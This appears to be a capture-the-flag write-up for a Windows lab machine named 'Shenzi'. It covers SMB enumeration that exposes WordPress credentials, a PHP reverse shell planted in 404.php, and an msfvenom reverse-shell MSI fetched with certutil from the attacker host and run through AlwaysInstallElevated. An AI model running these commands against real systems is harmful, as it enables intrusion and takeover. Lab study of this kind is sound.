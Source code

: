 # Shenzi

### Enumeration

```
$ smbmap -u Guest -H 192.168.189.55
Shenzi   READ ONLY

$ smbclient \\\\192.168.189.55\\Shenzi -U Guest
...
passwords.txt
5) WordPress:
   User: admin
   Password: [REDACTED]
```

[https://192.168.189.55/shenzi/](https://192.168.189.55/shenzi/) - WordPress main directory. I tried just using share name.

### Initial Access

https://revshells.com - Php IvanSincek - 192.168.49.189 - 80 - cmd

Added it to 404.php.

Visited and got reverse shell - http://192.168.189.55/shenzi/404.php

### PrivEsc

winPEASexe - [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe/binaries](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe/binaries)

```
Checking AlwaysInstallElevated
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                                                         
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.189 LPORT=80 -f msi -o high.msi

certutil.exe -urlcache -split -f "http://192.168.49.189/high.msi"
msiexec /quiet /qn /i C:\Users\shenzi\Desktop\high.msi
```
